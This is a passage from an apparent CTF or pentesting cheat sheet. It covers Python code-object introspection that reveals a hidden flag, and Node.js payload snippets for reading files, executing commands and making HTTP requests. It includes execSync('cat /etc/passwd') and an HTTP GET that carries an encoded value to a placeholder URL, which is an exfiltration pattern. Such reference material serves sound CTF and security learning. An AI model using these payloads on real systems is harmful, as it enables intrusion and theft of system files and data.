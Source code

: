 ```py
code.co_consts   # ('This code is secret', b'flag{you_found_me}', None)
code.co_names    # ()
code.co_varnames # flag
code.co_cellvars # () | no external variables
```
</div></div>

<hr class="sep-both">

## Node.js

<div class="row row-cols-lg-2"><div>

#### Node.js — Read Files

Read the source code of the main script:

```js!
require('fs').readFileSync(process.argv[1])
```

#### Node.js — Execute Commands

You can use `execSync` or `exec` which is async and using a callback.

```js!
require('child_process').execSync('cat /etc/passwd')
```

#### Node.js — HTTP Server

...

#### Node.js — HTTP Requests

For get requests, we can use relatively short payloads:

```js!
require('http').get('URL?arg='+url_encoded_value);
```
</div><div>

#### Node.js — Encoding/Decoding utilities

```js!
// Base64 Encode
const encodedData = Buffer.from(data).toString('base64');
const decodedData = Buffer.from(encodedData, 'base64').toString('utf-8');
// URL Encode
const urlEncodedString = encodeURIComponent(data);
```
</div></div>

<hr class="sep-both">

## HTML
